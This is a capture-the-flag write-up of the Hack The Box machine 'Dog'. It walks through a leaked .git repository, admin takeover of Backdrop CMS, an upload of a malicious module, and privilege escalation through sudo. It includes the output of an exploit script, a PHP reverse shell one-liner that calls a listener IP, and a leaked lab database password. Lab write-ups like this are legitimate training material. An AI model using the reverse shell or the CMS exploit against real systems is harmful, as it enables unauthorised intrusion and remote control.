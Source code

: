 # Dog \[Linux Easy]

## Report

An exposed git repositary compromises SQL root password credentials and a user tiffany@htb for the Backdrop CMS running on port 80 allows us to login as admin on CMS. Just like Mr. Robot WordPress, manual plugins can be installed here, upload a tar.gz file which is a PHP reverse shell.

List users in home and user johncusack uses same password as root db for user flag

sudo -l shows a binary bee that can run arbitrary PHP code, use it to spawn a new bash shell

## Cheatsheet

```
python3 exploit.py http://dog.htb
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://dog.htb/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://dog.htb/modules/shell/shell.php

php -r '$sock=fsockopen("10.10.14.55",9001);system("/bin/bash <&3 >&3 2>&3");'
```

## Loot

Email address - support@htb

.git  found on website, dump it

`$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop'`

`grep -r "@dog.htb"`

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<div align="left"><figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure></div>
